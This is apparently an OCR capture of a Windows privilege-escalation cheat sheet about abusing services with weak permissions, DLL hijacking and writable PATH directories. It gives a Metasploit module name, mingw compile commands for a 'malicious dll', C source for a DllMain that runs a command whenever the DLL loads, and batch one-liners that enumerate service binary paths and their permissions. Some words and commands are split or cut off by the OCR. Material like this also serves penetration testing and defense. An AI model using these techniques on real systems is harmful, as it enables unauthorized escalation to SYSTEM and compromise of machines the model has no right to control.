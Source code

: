 **A service running as Administrator/SYSTEM with incorrect file permissions might allow EoP.**

**You can replace the binar y, restar t the ser vice and get system.**

**Often, services are pointing to writeable locations:**

**Orphaned installs, not installed anymore but still exist in startup**

**DLL Hijacking**

**PATH directories with weak permissions**

**Alternatively you can use the Metasploit exploit :**

```
exploit/windows/local/service_permissions
```

**Note to check file permissions you can use cacls and icacls**

**icacls (Windows Vista +)**

```
# find missing DLL
```

* Find-PathDLLHijack PowerUp.ps
* Process Monitor : check for "Name Not Found"

```
# compile a malicious dll
```

* For x64 compile with: "x86\_64-w64-mingw32-gcc windows\_dll.c -shared -o output.dll"
* For x86 compile with: "i686-w64-mingw32-gcc windows\_dll.c -shared -o output.dll"

```
# content of windows_dll.c
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
if (dwReason == DLL_PROCESS_ATTACH) {
system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
ExitProcess( 0 );
}
return TRUE;
}
```

```
$ for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"'
$ for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls
```

```
$ sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txt
FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```
